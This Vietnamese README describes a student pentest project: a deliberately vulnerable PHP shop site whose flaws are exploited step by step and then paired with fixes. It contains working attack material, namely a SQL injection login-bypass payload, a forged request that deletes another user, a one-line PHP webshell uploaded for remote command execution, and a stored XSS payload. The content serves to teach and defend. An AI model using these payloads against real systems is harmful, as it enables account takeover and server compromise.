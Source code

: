# Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQL Injection)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control (IDOR)** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A07:2021 - Identification and Authentication Failures** | Cơ chế xác thực yếu, cho phép chiếm quyền tài khoản. | `/login.php` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |



---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
- Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary>🛑<strong> A01:2021 - Broken Access Control - Xóa Bất Kỳ User</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  
---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```
POST /web_pen_v1/profile/updateEmail HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf_token=&email=son%40testa01.com
```
#### 📌 4. Chỉnh sửa request:
-Đổi URL /profile/updateEmail thành /profile/deleteUser.
-Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 6 là neovim).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 6):
```
POST /web_pen_v1/profile/deleteUser HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=6
```
#### ✅ 5. Gửi request.
- Nếu lỗ hổng tồn tại, tài khoản có id=6 sẽ bị xóa mà không cần quyền admin.
- Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
- 📸 Ảnh Chụp Màn Hình (PoC Visuals)
	
| Step | Description | Images |
|---|---|---|
| **1** | *Database chứa thông tin user trước khi bị xóa.* | ![Database](screenshots/database.png) |
| **2** | *Mã nguồn có lỗ hổng trong hàm `deleteUser()` không kiểm tra quyền.* | ![Code](screenshots/a1-deleteUser.png) |
| **3** | *Chặn request cập nhật email bằng Burp Suite để thay đổi thành xóa user.* | ![Update + Capture](screenshots/a1-0.png) |
| **4** | *Payload thay đổi request từ update email sang delete user.* | ![Payload](screenshots/a1-1.png) |
| **5** | *Tài khoản đã bị xóa thành công sau khi gửi request.* | ![Result](screenshots/a1-3result.png) |



#### 🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 
<details>  
  <summary>🛑<strong> A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép thực thi mã từ xa (RCE) trên server.  
- **Hệ lụy**:  
  - Kẻ tấn công có thể tải lên và thực thi mã độc.  
  - Có thể truy cập trái phép vào hệ thống file của server.  
  - Mở đường cho tấn công leo thang đặc quyền hoặc pivoting sang các hệ thống khác.  

---

## 📌 Phát Hiện Chung  
- Chức năng **Upload Avatar** tại `/profile` **không kiểm tra kỹ loại file tải lên**.  
- Ứng dụng **chỉ kiểm tra phần mở rộng (extension)**, nhưng kẻ tấn công có thể bypass bằng cách đổi **header request**.  
- Nếu file `.php` được upload thành công, kẻ tấn công có thể **thực thi lệnh trên máy chủ từ xa**.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Kiểm tra chức năng upload với file hình ảnh hợp lệ.  
- Upload một file `.png` để kiểm tra đường dẫn lưu trữ trên server.  
- Quan sát thấy file được lưu vào thư mục `/web_pen_v1/public/uploads/`.  
  | Test |  Check |
  |---|---|
  | ![Test](screenshots/testimg.png) | ![Check](screenshots/checkimg.png) |
---

### 📌 2. Tạo Webshell với payload PHP  
Tạo file **`pls.php`** với nội dung:  
```php
<?php echo system($_GET['command']); ?>
```
### 📌 3. Upload file pls.php thông qua chức năng Upload Avatar
  | Check |  Test |
  |---|---|
  | ![Check](screenshots/check-webshell.png) | ![Test](screenshots/upload-webshell.png) |
### 📌 4. Thực thi lệnh từ xa
Gửi request thực thi lệnh whoami để xác định user chạy webserver:
```
GET /web_pen_v1/public/uploads/pls.php?command=whoami HTTP/1.1
Host: localhost
````
-Response trả về:
```
HTTP/1.1 200 OK
Server: Apache/2.4.62 (Win64) OpenSSL/3.0.15 PHP/8.3.16
...
desktop-4kbnl3q\ducson
```
-👉 Điều này chứng minh lệnh đã được thực thi trên máy chủ.

### 🚨 5. Ảnh Chụp Màn Hình (PoC Visuals)
| Step | Description | Images |
|------|------------|--------|
| 1 | Kiểm tra webshell có thể tải lên hay không. | ![Check](screenshots/check-webshell.png) |
| 2 | Tải lên file webshell `pls.php`. | ![Upload](screenshots/upload-webshell.png) |
| 3 | Truy cập webshell qua trình duyệt và gửi lệnh. | ![Webshell-1](screenshots/webshell-1.png) |
| 4 | Thực thi lệnh từ xa và nhận kết quả. | ![Webshell-2](screenshots/webshell-2.png) |
| 5 | Response hiển thị kết quả `apache`, chứng minh RCE thành công. | ![Result](screenshots/result-rce.png) |
### 🔧 Biện Pháp Khắc Phục Được Đề Xuất
#### ✅ 1. Kiểm tra loại file bằng MIME type thay vì chỉ kiểm tra phần mở rộng
- Sử dụng finfo_file() để kiểm tra loại file thực sự:
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime_type = finfo_file($finfo, $_FILES['avatar']['tmp_name']);
finfo_close($finfo);
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($mime_type, $allowed_types)) {
    die("File type not allowed!");
}
```
#### ✅ 2. Đổi tên file khi lưu trữ để ngăn chặn thực thi
```
$newFileName = uniqid() . ".jpg";
move_uploaded_file($_FILES['avatar']['tmp_name'], "uploads/" . $newFileName);
```
#### ✅ 3. Vô hiệu hóa PHP trong thư mục uploads bằng .htaccess
-Tạo file .htaccess trong uploads/ với nội dung:
```
<FilesMatch "\.php$">
    Deny from all
</FilesMatch>
```
#### ✅ 4. Định dạng lại quyền thư mục
Đặt quyền chmod 644 cho file, chmod 755 cho thư mục uploads để tránh thực thi mã độc.

</details>
<details>  
  <summary>🛑<strong> A03:2021 - Injection (Stored XSS) - Bình luận Blog</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🟠 Trung bình  
- **Ảnh hưởng**: Cho phép thực thi mã JavaScript độc hại trên trình duyệt của người dùng.  
- **Hệ lụy**:  
  - Đánh cắp cookie hoặc dữ liệu phiên của người dùng.  
  - Tạo ra các cuộc tấn công giả mạo (phishing).  
  - Chiếm quyền điều khiển tài khoản nếu kết hợp với các lỗ hổng khác.  
---

## 📌 Phát Hiện Chung  
- Tại trang **`blog_detail.php`**, người dùng có thể để lại bình luận dưới mỗi bài viết.  
- Ứng dụng **không kiểm tra hoặc mã hóa dữ liệu đầu vào**, cho phép chèn mã JavaScript.  
- Khi bình luận chứa mã độc được hiển thị trên trang, nó **tự động thực thi trên trình duyệt** của các người dùng khác.  
---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Gửi Payload XSS  
- Truy cập trang chi tiết bài viết (`blog_detail.php`).  
- Nhập nội dung bình luận với payload sau:  

```html
<script>alert("Check")</script>

```
---

### 📌 2. Kiểm tra kết quả  
- Truy cập lại trang `blog_detail.php` và quan sát trình duyệt.  
- Nhận thấy **hộp thoại alert xuất hiện**, chứng tỏ mã JavaScript đã được thực thi.  

📸 **Ảnh minh họa**:  

| Gửi Payload XSS | XSS được kích hoạt |
|-----------------|-------------------|
| ![Comment XSS](screenshots/comment-xss.png) | ![Alert XSS](screenshots/alert-xss.png) |
---

## 🔧 Biện Pháp Khắc Phục Được Đề Xuất  

#### ✅ 1. Lọc & mã hóa đầu vào  
- Trước khi lưu bình luận vào database, mã hóa ký tự đặc biệt:  

```
php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

```
  
#### ✅ 2. Xác thực đầu vào  
- Chỉ cho phép nhập văn bản thuần bằng cách kiểm tra regex hoặc whitelist các ký tự hợp lệ.  

#### ✅ 3. Sử dụng Content Security Policy (CSP)  
- Cấu hình CSP để chặn việc thực thi mã JavaScript nội tuyến:  
```
Content-Security-Policy: default-src 'self'; script-src 'self';
```
</details>
<details>  
  <summary>🛑<strong> A05:2021 - Security Misconfiguration - Lộ File Backup</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🟠 Trung bình  
- **Ảnh hưởng**: Dò được thông tin nhạy cảm của hệ thống.  
- **Hệ lụy**:  
  - Lộ thông tin về cấu hình Git.  
  - Dò ra đường dẫn thư mục nội bộ và các file quan trọng.  
  - Tạo điều kiện cho các cuộc tấn công tiếp theo như **Privilege Escalation** hoặc **RCE**.  

---

## 📌 Phát Hiện Chung  
- Khi truy cập thư mục `/backup/`, có thể thấy danh sách file backup của hệ thống.  
- Không có bất kỳ **cơ chế chặn truy cập** nào, dẫn đến **lộ thông tin quan trọng**.  
- Các file như `git-config-old.txt`, `git-logs-old.txt`, `git-status-old.txt` chứa dữ liệu nhạy cảm.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Truy cập đường dẫn backup  
- Mở trình duyệt và truy cập:  
```
http://localhost/web_pen_v1/backup/
```

- Kết quả trả về danh sách file backup:  

📸 **Ảnh minh họa**:  

| Mở thư mục backup | Nội dung file backup |
|-------------------|---------------------|
| ![Index Backup](screenshots/index-backup.png) | ![File Content](screenshots/file-backup.png) |

---

### 📌 2. Đọc nội dung file `git-config-old.txt`  
- Mở file backup và thấy thông tin nhạy cảm:  
```
[user]
    name = carlos
    email = carlos@admin.com
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
```

- Lộ thông tin admin, cấu trúc repo, và các file quan trọng khác.  
---

## 🔧 Biện Pháp Khắc Phục Được Đề Xuất  

### ✅ 1. Chặn truy cập thư mục `/backup/` bằng `.htaccess`  
Tạo file `.htaccess` trong thư mục `backup/` và thêm:  
```
Options -Indexes
Deny from all
```
#### ✅ 2. Xóa các file backup không cần thiết
Kiểm tra và xóa ngay các file backup không sử dụng.
Không lưu trữ file backup trong thư mục public.
#### ✅ 3. Cấu hình đúng quyền truy cập
Đặt quyền truy cập thư mục /backup/ chỉ cho phép admin:
```
chmod -R 700 backup/
```
</details>



